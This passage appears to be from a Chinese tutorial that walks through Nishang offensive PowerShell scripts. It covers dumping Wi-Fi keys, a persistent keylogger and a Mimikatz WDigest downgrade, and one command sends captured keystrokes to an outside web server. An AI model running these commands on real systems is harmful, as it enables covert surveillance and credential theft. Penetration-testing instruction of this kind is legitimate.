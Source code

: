 在Administrator的权限下，可以利用这个脚本来dump出WLAN文件的密钥信息。实质上，这个脚本就是利用了netsh wlan show profile name=”” key=clear来获取。 

执行方式：

```
PS &gt; Get-WLAN-Keys
```

Keylogger

Keylogger可以保存下用户的键盘记录。 

执行方式：



```
PS &gt; .Keylogger.ps1 -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -MagicString stopthis  //-CheckURL参数会去检查所给出的网页之中是否包含 -MagicString后的字符串，如果存在的话就停止使用记录。
PS &gt; .Keylogger.ps1 -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -MagicString stopthis -exfil -ExfilOption WebServer -URL http://192.168.254.226/data/catch.php //将记录指定发送给一个可以记录Post请求的Web服务器
PS &gt; .Keylogger.ps1 -persist //实现持久化记录（重启后依然进行记录）
PS &gt; .Keylogger.ps1 //直接以这种方式来运行，键盘记录会保存在当前用户的Temp目录下key文件中
```

测试 

首先执行 PS &gt; .Keylogger.ps1

[![](https://p4.ssl.qhimg.com/t0125efdaa308e3ef3f.jpg)](https://p4.ssl.qhimg.com/t0125efdaa308e3ef3f.jpg)

发现在当前用户的Temp目录下生成了Key的文件，这时我们使用nishang Utility中的Parse_Keys来解析

```
PS &gt;Parse_Keys .key.log .parsed.txt
```

然后parsed.txt里面就是解析后的按键记录了

[![](https://p2.ssl.qhimg.com/t01032c3b1a764d9750.jpg)](https://p2.ssl.qhimg.com/t01032c3b1a764d9750.jpg)

Invoke-MimikatzWdigestDowngrade

Dump出Windows 8.1 and Server 2012的系统用户密码。 

执行方式：



```
PS &gt;Invoke-MimikatzWDigestDowngrade
PS &gt; Get-Job | Receive-Job
```

执行了

```
PS &gt;Invoke-MimikatzWDigestDowngrade
```

Windows会锁屏
